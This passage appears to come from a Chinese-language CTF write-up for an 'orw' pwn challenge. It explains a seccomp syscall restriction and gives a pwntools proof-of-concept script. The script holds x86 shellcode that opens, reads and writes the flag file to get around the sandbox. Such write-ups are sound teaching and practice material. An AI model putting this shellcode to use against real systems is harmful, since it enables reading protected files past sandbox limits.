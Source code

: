 ```
              across execve(2).  If the filters permit prctl() calls, then
              additional filters can be added; they are run in order until
              the first non-allow result is seen.

              For further information, see the kernel source file
              Documentation/prctl/seccomp_filter.txt.
```

也就是说，22号限制了我们syscall的调用，具体限制了那些，怎么限制，由于水平不够，就没有再深入理解了。


使用open,read,write这三个syscall来cat flag，就是在练习shellcode的编写。

poc如下:
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
bin = ELF('orw.bin')
cn = process('./orw.bin')

cn.recv()

shellcode='''
push 1;
dec byte ptr [esp];
push 0x67616c66;
mov ebx,esp;
xor ecx,ecx;
xor edx,edx;
xor eax,eax;
mov al,0x5;
int 0x80;

mov ebx,eax;
xor eax,eax;
mov al,0x3;
mov ecx,esp;
mov dl,0x30;
int 0x80;

mov al,0x4;
mov bl,1;
mov dl,0x30;
int 0x80;
'''
'''
fp = open("flag",0)
read(fp,buf,0x30)
write(1,buf,0x30)
'''

#gdb.attach(cn)
#raw_input()
cn.sendline(asm(shellcode))
cn.interactive()
```
